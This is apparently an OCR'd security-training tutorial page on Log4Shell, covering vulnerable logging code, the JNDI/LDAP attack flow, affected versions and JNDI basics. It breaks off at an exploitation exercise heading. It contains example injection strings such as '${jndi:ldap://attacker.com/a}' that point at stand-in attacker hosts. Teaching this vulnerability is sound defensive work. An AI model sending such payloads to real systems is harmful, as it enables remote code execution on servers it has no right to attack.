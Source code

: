 
## How Log4Shell Works

### The Vulnerable Code

```java
// Vulnerable Log4j usage
logger.info("User login: " + username);
logger.error("Invalid input: " + userInput);

// If userInput contains: ${jndi:ldap://evil.com/a}
// Log4j will make an LDAP request!
```

### Attack Flow

1. **Attacker** sends malicious payload: `${jndi:ldap://attacker.com/a}`
2. **Log4j** parses the lookup syntax `${...}`
3. **JNDI** makes request to attacker's LDAP server
4. **LDAP server** returns malicious Java object
5. **Application** executes attacker's code

### Affected Versions

- Log4j 2.0-beta9 to 2.14.1 (Fixed in 2.15.0, fully in 2.17.0)
- Java versions 6, 7, 8 allow full RCE
- Java 9+ requires additional gadgets

---

## JNDI and LDAP Basics

### What is JNDI?

Java Naming and Directory Interface - allows Java apps to look up resources:
- LDAP: `ldap://server/cn=admin`
- RMI: `rmi://server/object`
- DNS: `dns://server/example.com`

### LDAP Response Types

1. **Reference Result**: Points to remote codebase
2. **Serialized Object**: Contains malicious gadget
3. **JNDI Reference**: Loads remote class

---

## Hands-On Practice

### 🏃 Exercise 1: Basic Log4Shell Exploitation

